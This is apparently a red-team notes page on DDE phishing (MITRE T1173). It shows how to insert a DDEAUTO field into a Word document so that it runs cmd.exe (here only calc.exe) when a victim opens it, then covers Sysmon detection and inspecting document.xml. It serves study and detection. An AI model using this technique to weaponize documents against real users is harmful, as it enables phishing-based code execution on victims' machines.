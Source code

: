 ```yaml
---
description: Dynamic Data Exchange code - executing code in Microsoft Office documents.
---
```


# T1173: Phishing - DDE

## Weaponization

Open a new MS Word Document and insert a field:

![](../../.gitbook/assets/dde-insert-field.png)

It will add an `!Unexpected End of Formula`to the document, that is expected. Right click it &gt; Toggle Field Codes:

![](../../.gitbook/assets/dde-toggle-code.png)

Toggle Field Codes will give this:

![](../../.gitbook/assets/dde-merge.png)

Replace `= \* MERGEFORMAT` with payload and save the doc:

```bash
DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe" 
```

to get this:

![](../../.gitbook/assets/dde-payload.png)

{% file src="../../.gitbook/assets/evil.docx" caption="DDE: evil.docx" %}

## Execution

Once the victim launches the evil .docx by and accepts 2 prompts, the reverse shell \(or in this case a calc.exe\) pops:

![](../../.gitbook/assets/dde-prompt1.png)

![](../../.gitbook/assets/dde-prompt2.png)

## Observations

![](../../.gitbook/assets/dde-procexp.png)

Sysmon logs can help spot suspicious processes and/or network connections being initiated by Office applications:

![3rd and 4th columns respectively: PID and PPID](../../.gitbook/assets/dde-sysmon.png)

## Inspection

How can we inspect .docx \(same for .xlsx\) files? Since they are essentially .zip archives, we can rename the .docx file to .zip and simply unzip the archive for further inspection. 

The file we are interested in is the `document.xml` \(trimmed for brevity below\). Note how line 4 allows us inspecting the DDE payload in plain text:

{% code-tabs %}
{% code-tabs-item title="document.xml" %}
```markup
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<w:document xmlns:wpc="http://schemas.microsoft.com/office/word/2010/wordprocessingCanvas" xmlns:cx="http://schemas.microsoft.com/office/drawing/2014/chartex" xmlns:cx1="http://schemas.microsoft.com/office/drawing/2015/9/8/chartex" xmlns:mc="http://schemas.openxmlformats.org/markup-compatibility/2006" xmlns:o="urn:schemas-microsoft-com:office:office" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships" xmlns:m="http://schemas.openxmlformats.org/officeDocument/2006/math" xmlns:v="urn:schemas-microsoft-com:vml" xmlns:wp14="http://schemas.microsoft.com/office/word/2010/wordprocessingDrawing" xmlns:wp="http://schemas.openxmlformats.org/drawingml/2006/wordprocessingDrawing" xmlns:w10="urn:schemas-microsoft-com:office:word" xmlns:w="http://schemas.openxmlformats.org/wordprocessingml/2006/main" xmlns:w14="http://schemas.microsoft.com/office/word/2010/wordml" xmlns:w15="http://schemas.microsoft.com/office/word/2012/wordml" xmlns:w16se="http://schemas.microsoft.com/office/word/2015/wordml/symex" xmlns:wpg="http://schemas.microsoft.com/office/word/2010/wordprocessingGroup" xmlns:wpi="http://schemas.microsoft.com/office/word/2010/wordprocessingInk" xmlns:wne="http://schemas.microsoft.com/office/word/2006/wordml" xmlns:wps="http://schemas.microsoft.com/office/word/2010/wordprocessingShape" mc:Ignorable="w14 w15 w16se wp14">
<...snip...>
      <w:instrText>DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"</w:instrText>
<...snip...>
</w:document>

```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1173" %}





